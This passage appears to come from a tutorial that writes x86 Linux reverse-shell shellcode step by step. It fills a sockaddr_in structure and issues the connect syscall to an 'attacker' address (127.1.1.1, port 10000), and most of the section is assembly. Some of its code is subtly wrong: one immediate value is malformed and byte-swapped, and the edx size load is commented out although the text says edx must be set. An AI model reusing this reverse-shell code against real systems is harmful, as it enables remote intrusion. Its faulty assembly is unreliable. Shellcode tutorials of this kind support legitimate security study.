         * This is exactly how an instance of **sockaddr_in** structure look in memory. So, let us go ahead and store the details. 

        * sin_family = AF_INET = 2
        * sin_port = htons(port) = htons(10000) = 0x1027
        * sin_addr is a **struct in_addr** which has only one element - unsigned int **s_addr**. 
        * sin_addr.s_addr = inet_addr("127.1.1.1") = 0x7f010101
        * sin_zero is an array of 8 **0**s. 
        * **esp** is the **Pointer** pointing to **struct sockaddr_in** here. 
    
    * Now that we have figured out how the memory should look like, let us write assembly code which make that happen.

            
            push 0x0
            push 0x0
            push 0x0
            push 0x0
            mov word [esp], 0x2
            mov word [esp + 0x2], 0x1027        ; htons(10000)
            mov dword[esp + 0x4], 010101017f    ; inet_addr("127.1.1.1")
            mov dword[esp + 0x8], 0x00000000
            mov dword[esp + 0xc], 0x00000000

            ; Store the Pointer pointing to struct sockaddr_in in ecx. 
            mov ecx, esp
    
3. Connect to Attacker. 

    * This is how it is done at C-level. 
    
                // Connect system call
                connect(sock_fd, (struct sockaddr *)&serversockaddr, sizeof(serversockaddr));

    * In x86 assembly, 

        * Load **connect**'s system call number into eax. 
        * Load sock_fd into ebx - First Argument
        * Load &serversockaddr - pointer to (struct sockaddr_in) into ecx - Second Argument
        * Load sizeof(serversockaddr) into edx - Third Argument

    * Refering to **/usr/include/asm/unistd_32.h**,  

            #define __NR_connect 362
    
        * So, system call number of **connect** is 362
    
    * **sock_fd** is already stored in **ebx**. Check Step-1(creation of socket). 

    * Pointer is stored in **ecx** - Check previous step. 

    * Let us calculate the size of serversockaddr - which is nothing but **sizeof(struct sockaddr_in)**. It is **2 + 2 + 4 + 8** bytes = **16** bytes. 

    * With these details, let us write the corresponding x86 code: 

            mov eax, 362
            ; ebx already has File Descriptor
            ; ecx already has the Pointer
            ; mov edx, 16
            int 0x80
